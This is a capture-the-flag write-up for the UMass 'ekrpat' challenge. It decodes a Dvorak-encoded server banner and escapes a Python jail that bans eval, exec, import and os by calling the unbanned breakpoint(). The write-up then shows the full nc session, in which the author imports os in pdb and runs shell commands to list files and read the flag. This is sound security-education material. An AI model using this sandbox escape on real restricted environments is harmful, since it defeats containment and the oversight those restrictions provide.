 The hint and the initial server message suggest something to do with keyboard mappings, and googling the title ekrpat also confirms that it's a qwerty/dvorak mapping.  Using any of many sites to convert from dvorak -> qwerty, we decode that message to:

> You've broken my code! Escape without the help of eval, exec, import, open, os, read, system, and write. First, enter 'dvorak'. You will then get another input which you can use try to break out of the jail.

Type in 'dvorak', and you can try to run one Python statement before getting disconnected.  All the usual interesting functions are disallowed, but are there any other interesting built-in functions that aren't banned?  Looking through the [list of built-in functions](https://docs.python.org/3/library/functions.html), I immediately noticed that `breakpoint()` wasn't banned.

So, use `breakpoint()` to break into the Python debugger, and then it's trivial to grab the flag from there:

```
$ nc 34.72.64.224 8083
Frg-k. xprt.b mf jre.! >ojal. ,cydrgy yd. d.nl ru .kanw .q.jw cmlrpyw rl.bw row p.aew ofoy.mw abe ,pcy.v Ucpoyw .by.p -ekrpat-v Frg ,cnn yd.b i.y abryd.p cblgy ,dcjd frg jab go. ypf yr xp.at rgy ru yd. hacnv
>>> dvorak
>>> breakpoint()
--Return--
> <string>(1)<module>()->None
(Pdb) import os
(Pdb) os.system('ls -al')
total 52
drwxr-xr-x 1 root root  4096 Mar 26 23:58 .
drwxr-xr-x 1 root root  4096 Mar 25 05:02 ..
-rw-r--r-- 1 root root   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 root root  3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 root root   807 Feb 25  2020 .profile
-rw-r--r-- 1 root root   555 Mar 25 05:05 Dockerfile
-rw-r--r-- 1 root root   583 Mar 26 23:57 ekrpat.py
-rw-r--r-- 1 root root    20 Mar 25 04:59 flag
-rw-r--r-- 1 root root     0 Mar 26 23:52 ojal.
-rwxr-xr-x 1 root root 18744 Mar 25 05:05 ynetd
0
(Pdb) os.system('cat flag')
UMASS{dvorak_rules}
0
```
